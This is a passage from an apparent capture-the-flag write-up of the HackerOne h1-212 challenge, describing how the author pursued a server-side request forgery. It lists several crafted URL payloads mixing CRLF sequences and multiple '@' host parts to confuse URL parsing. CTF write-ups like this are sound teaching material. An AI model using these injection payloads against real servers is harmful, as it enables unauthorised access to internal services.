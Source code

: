 Easy peasy.  
I was pretty sure this was the key so I stopped my script at port 19187, enough spam.

__Resources:__  
[Hackerone article about SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)  
[Server-side browsing considered harmful by Nicolas Grégoire](http://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdf)  


## Step x, try harder, cry stronger 2/2

Ok I have the good parameter, a good domain, good Content-Type, good cookie, the l33t port, I can decode base64, so far so good!
Now I simply need to request a single file like `/index.html` or `/flag`, that would be great!
Hopefully this is the final step. Unfortunately this is where things gone wrong :/

I read many documentation and articles about SSRF but the most useful was the SSRF bible and the presentation from Orange Tsai. Simply awesome.
The idea: `http://1.1.1.1 &@2.2.2.2# @3.3.3.3/`  
Since `&`, `%` and `#` are forbidden characters in this challenge, from this two papers I understood that I should combine the SSRF with a CRLF.
Dealing with `\r` and `\n` I quickly got a strange behavior:  
![ctf h1-212 ssrf 1337 400](/images/ctf-h1-212-ssrf-1337-400.png)

Yes, yes, yes, it's not Apache anymore, I am now dealing with a Nginx install.
Does it matter ? Well I don't know, maybe those servers don't react to CRLF the same way...

Since the first part of the domain must contain `212` and the last part must end by `.com`, I had configure a dns `A` record of my own domain to point to `127.0.0.1`, that was useless but hey, how could I know!
Based on the "3 parts payload" mentionned by Orange Tsai, here are some stuff I tried:
```none
poc212.10degres.net:1337/flag @www.google.com @h1-212.acme.com
poc212.10degres.net:1337/\r @www.google.com\r @h1-212.acme.com
poc212.10degres.net:1337\r\t@www.google.com\r\t@h1-212.acme.com
poc212.10degres.net:1337\s@www.google.com\s@h1-212.acme.com
poc212.10degres.net:1337\r\n@www.google.com\r\n@h1-212.acme.com
poc212.10degres.net:1337 @\r\nwww.google.com @\r\nh1-212.acme.com
poc212.10degres.net:1337 @/flag @h1-212.acme.com
poc212.10degres.net:1337 @www.google.com @/h1-212.acme.com
```

After some hours (...) I decided to use the SSRF against my own server, that way I could see what kind of requests the CTF server send.
Installing and configuring Nginx. Configuring a `.com` domain I have and the vhost that will be accepted by Jobert's code as well.
Same same but different:
```none
poc212.10degres.net:1337/flag @www.google.com @h1-212.10degres.com
poc212.10degres.net:1337/\r @www.google.com\r @h1-212.10degres.com
poc212.10degres.net:1337\r\t@www.google.com\r\t@h1-212.10degres.com
poc212.10degres.net:1337\s@www.google.com\s@h1-212.10degres.com
poc212.10degres.net:1337\r\n@www.google.com\r\n@h1-212.10degres.com
poc212.10degres.net:1337 @\r\nwww.google.com @\r\nh1-212.10degres.com
poc212.10degres.net:1337 @/flag @h1-212.10degres.com
poc212.10degres.net:1337 @www.google.com @/h1-212.10degres.com
```
